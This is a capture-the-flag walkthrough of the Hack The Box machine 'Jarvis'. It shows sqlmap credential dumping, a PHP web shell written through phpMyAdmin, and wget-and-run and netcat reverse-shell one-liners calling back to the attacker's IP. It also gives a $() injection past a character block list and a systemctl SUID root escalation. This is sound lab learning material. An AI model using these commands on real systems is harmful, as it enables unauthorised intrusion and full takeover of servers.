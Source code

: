 # Jarvis (HACK THE BOX)

Hey Guys,Today we will be doing Jarvis from HackTheBox,
![](logo.png)
<br/>

## Nmap Scan

```
[sarthak@sarthak ~]$ nmap -sV 10.10.10.143 -Pn -v                                                                                      
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-29 17:55 IST
NSE: Loaded 43 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 17:55
Completed Parallel DNS resolution of 1 host. at 17:55, 0.01s elapsed
Initiating Connect Scan at 17:55
Scanning 10.10.10.143 [1000 ports]
Discovered open port 22/tcp on 10.10.10.143
Discovered open port 80/tcp on 10.10.10.143
Increasing send delay for 10.10.10.143 from 0 to 5 due to 79 out of 262 dropped probes since last increase.
Completed Connect Scan at 17:56, 54.66s elapsed (1000 total ports)
Initiating Service scan at 17:56
Scanning 2 services on 10.10.10.143
Completed Service scan at 17:56, 7.18s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.143.
Initiating NSE at 17:56
Completed NSE at 17:56, 2.45s elapsed
Initiating NSE at 17:56
Completed NSE at 17:56, 0.00s elapsed
Nmap scan report for 10.10.10.143
Host is up (0.58s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.01 seconds
```
We have only 2 ports opened(well one more but it was a rabbit hole) so let's start looking at port 80

## Enumerating Web Server

![](Selection_009.png)
<br/>
After looking around we found a good candidate for vulnerabilites like sql injection or LFI,etc

## HARVESTING CREDENTIALS

We were able to harvest credentials of admin from this following query
```
sqlmap -u "http://10.10.10.143/room.php?cod=3" --random-agent -D mysql -T user  --dump
```
and the output is :-
```
Username:-DBadmin
Password:-*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
```
But this is a sha1 hash so after some hit and trial with the hash we got the value decrypted :)
![](Selection_010.png)
<br/>

```
password:-imissyou
```

## Getting Remote Code Execution

we found ```phpmyadmin``` in dirb results
```
[sarthak@sarthak ~]$ dirb http://10.10.10.143                                                                                    [0/29]

-----------------                
DIRB v2.22                       
By The Dark Raver                
-----------------                

START_TIME: Sat Jun 29 18:00:31 2019                               
URL_BASE: http://10.10.10.143/                                     
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt                                                                                   

-----------------                

GENERATED WORDS: 4612                                                                                                                  

---- Scanning URL: http://10.10.10.143/ ----                                                                                           
==> DIRECTORY: http://10.10.10.143/phpmyadmin/
```
After logging in with the credentials we got from sqlmap,We created a new database to upload shell ([Reference](https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/))

![](Selection_011.png)
<br/>

We used the following query to create a new PHP one liner shell

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/hack.php"
```
![](Selection_012.png)
<br/>

We can execute commands now
![](Selection_013.png)
<br/>

## Low Priv Shell

We [downloaded](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) a PHP shell from here and started a listner

Now we got a shell by executing this command on our rce php file...
```
http://10.10.10.143/hack.php?cmd=wget http://10.10.15.239:8081/sh.php;php sh.php
```
![](Selection_014.png)
<br/>

## Pivoting to pepper user

we saw that we can execute this script ```simpler.py``` as user pepper 
```
$ python -c 'import pty;pty.spawn("/bin/bash")'                                                 
www-data@jarvis:/$ sudo -l                                                                      
sudo -l                                                                                         
Matching Defaults entries for www-data on jarvis:                                               
    env_reset, mail_badpass,                                                                    
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin               
                                                                                                
User www-data may run the following commands on jarvis:                                         
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py                                
www-data@jarvis:/$    
```

After Going through the source code we found out that if we execute this script with ```-p``` paramter, it will ask for an ip address and there we can inject our code but it have a security check which blocks some characters...

```
forbidden = ['&', ';', '-', '`', '||', '|']
```
So after googling for a while we found out [this](https://vulners.com/zdt/1337DAY-ID-28868),So according to this we can execute commands inside `$(commands)` and it will bypass those checks...

So we downloaded a ```shell.sh```  on the server which has netcat reverse shell in it ...
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.239 1233 >/tmp/f
```

and upon executing this command we get a reverse connection
```
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```
then it asks for a IP address and we executed this command to get shell
```
$(sh /var/www/html/shell.sh)
```
![](Workspace 1_015.png)
<br/>

## Privesc

Upon executing this ``` find / -perm -u=s -type f 2>/dev/null ``` command we found out that ```systemctl``` will run as root 

```
pepper@jarvis:/var/www$ find / -perm -u=s -type f 2>/dev/null 
find / -perm -u=s -type f 2>/dev/null 
/bin/mount
/bin/ping
/bin/systemctl
/bin/umount
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
pepper@jarvis:/var/www$ 

```
To exploit this we have to create our own service which will get us shell so we use [this](https://www.linode.com/docs/quick-answers/linux/start-service-at-boot/) website to get a template for service creation

```
[Unit]
Description=Example systemd service.

[Service]
Type=simple
ExecStart=/bin/bash /home/pepper/lol.sh

[Install]
WantedBy=multi-user.target
```
we saved it as ```sarthak.service``` and given proper permissions ```chmod 777 sarthak.service``` and that ```lol.sh``` has another netcat shell which will pop shell on port 1232 
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.239 1232 >/tmp/f" > lol.sh;chmod +x lol.sh
```
Now we will take reference from this [site](https://gtfobins.github.io/gtfobins/systemctl/)

  - assigned TF variable ```TF=/home/pepper/sarthak.service```
  - Link the sarthak.service ```/bin/systemctl link $TF```
  - Start a listner on port 1232
  - Enable the service ``` /bin/systemctl enable --now $TF ```
  
 OUTPUT:-
 ```
 pepper@jarvis:~$ TF=/home/pepper/sarthak.service
TF=/home/pepper/sarthak.service
pepper@jarvis:~$ /bin/systemctl link $TF
/bin/systemctl link $TF
Created symlink /etc/systemd/system/sarthak.service -> /home/pepper/sarthak.service.
pepper@jarvis:~$ /bin/systemctl enable --now $TF
/bin/systemctl enable --now $TF
Created symlink /etc/systemd/system/multi-user.target.wants/sarthak.service -> /home/pepper/sarthak.service.
pepper@jarvis:~$ 
 ```
 
 And on our netcat now :)
 
 ```
 [sarthak@sarthak ~]$ nc -nvlp 1232
Connection from 10.10.10.143:44684
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# python -c 'import pty;pty.spawn("/bin/bash")'
root@jarvis:/# id
id
wuid=0(root) gid=0(root) groups=0(root)
root@jarvis:/# hoami
whoami
root

 ```
 Hooray !!! We rooted it 
 ![](meme.gif)
 <br/>
This was a good and straight forward machine,
and if you guys like it stay tuned for more :)
